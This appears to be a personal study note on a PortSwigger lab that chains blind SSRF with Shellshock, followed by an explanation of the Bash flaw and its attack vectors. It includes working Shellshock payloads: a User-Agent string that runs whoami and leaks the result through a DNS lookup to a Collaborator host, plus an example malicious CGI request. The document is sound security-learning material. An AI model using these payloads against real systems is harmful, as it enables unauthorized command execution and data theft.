 8. When the attack is finished, go to the **Collaborator** tab, and click **Poll now**. If you don't see any interactions listed, wait a few seconds and try again, since the server-side command is executed asynchronously. You should see a DNS interaction that was initiated by the back-end system that was hit by the successful blind [SSRF attack](https://portswigger.net/web-security/ssrf). The name of the OS user should appear within the DNS subdomain. To complete the lab, enter the name of the OS user.

**Analysis**:
1. we observe two vulnerable parameters: `User-Agent` & `Referer`
	![[Pasted image 20241002205157.png]]

2. we can exploit the `User-Agent` parameter for a ShellShock payload:
```
() { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN
```
![[Pasted image 20241002205444.png]]

3. we also need to blind SSRF via `Referer` parameter, fuzzing the ip range as we did in previous examples.
	![[Pasted image 20241002205727.png]]
	
4. we have received the response for whoami on our server via the shellshock
	![[Pasted image 20241002210051.png]]

	**Shellshock** exploits a vulnerability in how Bash processes environment variables. Bash can use specially formatted strings in environment variables to execute commands when it’s invoked. This allows attackers to inject malicious code into those environment variables, which then gets executed by Bash. The flaw arises because Bash doesn't properly sanitize these environment variables before executing them.
	
	**Vulnerability Impact**:
	Shellshock allows attackers to execute arbitrary commands on a vulnerable machine. This means they can gain unauthorized access to a system, modify data, steal information, or use the system for further attacks.
	
	### **How Shellshock is Exploited**:
	An attacker can exploit Shellshock in a variety of ways, but common attack vectors include:
	
	- **CGI Scripts**: Many web servers use CGI scripts written in Bash to interact with users. If an attacker sends a request with malicious environment variables, the vulnerable Bash shell will execute arbitrary code.
	- **OpenSSH**: Systems that use Bash for processing SSH commands and have shell access may also be vulnerable if attackers can set environment variables during login.
	- **DHCP (Dynamic Host Configuration Protocol)**: Some DHCP clients invoke Bash to configure network settings, allowing attacks via DHCP responses from a malicious server.
	
	One of the simplest ways to exploit Shellshock is through a CGI script on a web server. Here’s an example of a malicious HTTP request targeting a vulnerable Bash shell via an environment variable:
		`GET /cgi-bin/test.cgi HTTP/1.1 Host: target.com User-Agent: () { :; }; echo; /bin/bash -c "echo Hello World"` 

	- The `User-Agent` field (which is normally used to specify the browser type) is crafted to exploit the vulnerability.
	- The payload `() { :; };` tells Bash to treat the content as a function definition, followed by arbitrary code (in this case, `echo Hello World`).
